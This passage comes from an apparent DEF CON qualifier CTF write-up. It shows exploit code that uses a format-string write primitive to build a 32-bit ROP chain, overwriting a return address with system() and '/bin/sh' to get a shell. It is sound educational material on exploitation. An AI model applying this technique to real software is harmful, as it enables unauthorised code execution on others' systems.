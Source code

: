 I could easily have leaked libc until I found the offset to the string, but that's completely unnecessary.

### Building the ROP chain

In the end, I had the address of system() and the address of "/bin/sh" in my buffer. I used them to construct a really simple ROP chain, similar to the one used in [r0pbaby](/2015/defcon-quals-r0pbaby-simple-64-bit-rop) (the difference is that, since we're on 32-bit for this level, we can pass the address of "/bin/sh" on the stack and don't have to worry about finding a gadget):

```
<pre id="vimCodeElement">
write_byte(return_ptr+<span class="Constant">0</span>, (system_addr >> <span class="Constant">0</span>) & <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">1</span>, (system_addr >> <span class="Constant">8</span>) & <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">2</span>, (system_addr >> <span class="Constant">16</span>) & <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">3</span>, (system_addr >> <span class="Constant">24</span>) & <span class="Constant">0x0FF</span>)

write_byte(return_ptr+<span class="Constant">4</span>, <span class="Constant">0x5e</span>)
write_byte(return_ptr+<span class="Constant">5</span>, <span class="Constant">0x5e</span>)
write_byte(return_ptr+<span class="Constant">6</span>, <span class="Constant">0x5e</span>)
write_byte(return_ptr+<span class="Constant">7</span>, <span class="Constant">0x5e</span>)

sh_addr = buffer_addr + <span class="Constant">200</span> + FUDGE
write_byte(return_ptr+<span class="Constant">8</span>,  (sh_addr >> <span class="Constant">0</span>) & <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">9</span>,  (sh_addr >> <span class="Constant">8</span>) & <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">10</span>, (sh_addr >> <span class="Constant">16</span>) & <span class="Constant">0x0FF</span>)
write_byte(return_ptr+<span class="Constant">11</span>, (sh_addr >> <span class="Constant">24</span>) & <span class="Constant">0x0FF</span>)
```

Basically, I wrote the 4-byte address of system() over the actual return address in four separate printf() calls. Then I wrote 4 useless bytes (they don't really matter - they're system()'s return address so I made them something distinct so I can recognize the crash after system() returns). Then I wrote the address of "/bin/sh" over the next 4 bytes (the first parameter to system()).

Once that was done, I sent "good" coordinates - 100000,100000 - which caused the function to return. Since the return address had been overwritten, it returned to system("/bin/sh") and it was game over.

## Conclusion

I really liked this level because it was multiple parts.

First, we had to solve a game by making some simple AI.

Second, we had to find the "key" by either reverse engineering or debugging.
